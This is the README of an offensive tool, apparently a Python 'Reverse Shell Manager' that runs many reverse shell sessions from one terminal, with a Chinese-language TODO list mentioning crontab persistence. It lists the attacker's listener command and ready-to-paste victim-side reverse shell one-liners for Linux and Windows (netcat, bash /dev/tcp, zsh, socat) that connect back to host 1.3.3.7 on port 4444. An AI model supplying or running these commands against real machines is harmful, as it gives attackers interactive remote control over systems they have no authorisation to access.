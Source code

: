 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```

#### New version is under development

* Platypus
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * ...

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] 实现添加 crontab 的功能
- [x] 实现删除 crontab 的功能
- [ ] 使用异步 HTTP 库 grequests
- [ ] Master 面向对象
- [ ] 抛弃多线程 , 使用 select/epoll 来解决并发问题

#### Bugs

- [x] 主机上线但是并没有被加入列表
- [ ] socket 在 recv 的时候会出现假死的情况 (暂时不能复现)

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
